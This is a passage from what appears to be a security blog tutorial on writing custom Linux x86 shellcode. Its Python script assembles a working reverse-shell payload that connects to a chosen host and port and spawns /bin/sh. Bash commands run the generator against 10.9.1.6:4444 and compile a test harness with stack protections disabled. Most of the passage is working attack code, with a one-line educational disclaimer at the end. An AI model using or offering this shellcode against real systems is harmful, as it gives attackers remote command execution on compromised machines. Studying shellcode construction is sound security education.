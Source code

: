 ```py
    print (YELLOW + "hex host address: x" + h1 + "x" + h2 + "x" + h3 + "x" + h4 + ENDC)

    p = socket.inet_aton(port).hex()[4:]
    pl = [p[i:i+2] for i in range(0, len(p), 2)]
    if "00" in pl:
        print (YELLOW + "port will cause null bytes to be in shellcode :(" + ENDC)
    p1, p2 = pl

    shellcode_port = "\\x" + p1 + "\\x" + p2
    print (YELLOW + "hex port: x" + p1 + "x" + p2 + ENDC)

    shellcode = "\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31"
    shellcode += "\\xd2\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x92\\xb0\\x66\\x68"
    shellcode += shellcode_host
    shellcode += "\\x66\\x68"
    shellcode += shellcode_port
    shellcode += "\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10"
    shellcode += "\\x51\\x52\\x89\\xe1\\x43\\xcd"
    shellcode += "\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0"
    shellcode += "\\x3f\\xcd\\x80\\x49\\x79\\xf9"
    shellcode += "\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68"
    shellcode += "\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\xcd\\x80"

    print (GREEN + "your super shellcode is:" + ENDC)
    print (GREEN + shellcode + ENDC)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-l','--lhost',
                         required = True, help = "local IP",
                         default = "127.1.1.1", type = str)
    parser.add_argument('-p','--lport',
                         required = True, help = "local port",
                         default = "4444", type = str)
    args = vars(parser.parse_args())
    host, port = args['lhost'], args['lport']
    my_super_shellcode(host, port)

```

Prepare listener, run script, copy shellcode to our test program, compile and run:         
```bash
python3 super_shellcode.py -l 10.9.1.6 -p 4444
gcc -static -fno-stack-protector -z execstack -m32 -o run run.c 
```

![run C code](/assets/images/14/2021-10-16_17-38.png){:class="img-responsive"}       

So our shellcode is perfectly worked :)        

This is how you create your own shellcode, for example.             

> This is a practical case for educational purpose only. 
